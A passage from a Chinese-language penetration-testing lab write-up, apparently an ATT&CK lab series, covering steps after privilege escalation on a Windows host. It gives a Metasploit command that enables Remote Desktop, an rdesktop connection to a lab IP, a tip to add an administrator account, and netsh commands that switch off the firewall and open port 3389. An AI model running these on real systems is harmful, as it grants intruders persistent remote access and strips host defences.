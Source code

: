成功提权

连接远程桌面

使用msf开启

```csharp
meterpreter > run post/windows/manage/enable_rdp
```

连接

```csharp
rdesktop 192.168.5.129
```

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2028.png)

还可以自己创建一个用户，将用户加入管理员组进行远程登录

如果出现连接失败，可能是防火墙原因

```csharp
netsh advfirewall set allprofiles state off 关闭防火墙

netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow 防火墙放行3389
```
